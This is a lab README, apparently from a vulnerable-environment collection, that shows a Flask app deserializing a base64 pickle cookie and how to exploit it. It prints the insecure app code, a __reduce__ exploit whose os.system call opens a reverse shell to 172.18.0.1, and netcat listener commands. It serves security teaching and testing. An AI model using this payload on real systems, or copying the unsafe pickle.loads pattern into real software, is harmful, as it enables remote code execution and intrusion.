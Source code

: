 # Python Unpickle Deserialization Remote Code Execution

[中文版本(Chinese version)](README.zh-cn.md)

Python's pickle module is a popular serialization/deserialization tool that converts Python objects into byte streams and vice versa. However, when untrusted data is deserialized using pickle, it can lead to arbitrary code execution.

This vulnerability occurs when an application deserializes user-controlled data using the pickle module without proper validation. An attacker can craft a malicious serialized object that, when deserialized, executes arbitrary commands on the target system.

References:

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html
- https://docs.python.org/3/library/pickle.html#pickle.loads
- https://intoli.com/blog/dangerous-pickles/

## Environment Setup

Execute the following command to start the vulnerable Flask application:

```
docker compose build
docker compose up -d
```

After the server is started, you can access `http://your-ip:8000` in your browser. The page will display `Hello {username}!`, where username is retrieved from the 'user' cookie. The application performs base64 decoding and deserialization on this cookie to extract the "username" variable. If no valid cookie is found, it defaults to "Guest".

The vulnerable code in app.py looks like this:

```python
@app.route("/")
def index():
    try:
        user = base64.b64decode(request.cookies.get('user'))
        user = pickle.loads(user)
        username = user["username"]
    except:
        username = "Guest"

    return "Hello %s" % username
```

## Vulnerability Reproduction

To exploit this vulnerability, we need to create a malicious pickle object that will execute arbitrary commands when deserialized. The exploit uses Python's `__reduce__` method to specify what function to call when the object is unpickled.

The provided exploit script (exp.py) creates a malicious pickle object that establishes a reverse shell connection to the attacker's machine:

```python
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.18.0.1",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))
```

To execute the exploit, first set up a netcat listener on your machine to receive the reverse shell:

```bash
nc -lvp 80

# on mac you just need
# Because macOS comes with the BSD version of netcat, not the GNU version.
nc -lv 80
```

Then run the exploit script to send the malicious cookie to the vulnerable application:

```bash
python3 exp.py
```

When the server deserializes the malicious pickle object, it will execute the command and establish a reverse shell connection to your machine:

![Reverse Shell Demonstration](1.png)


Test on Mac:

![Reverse Shell Demonstration on Mac](mac.png)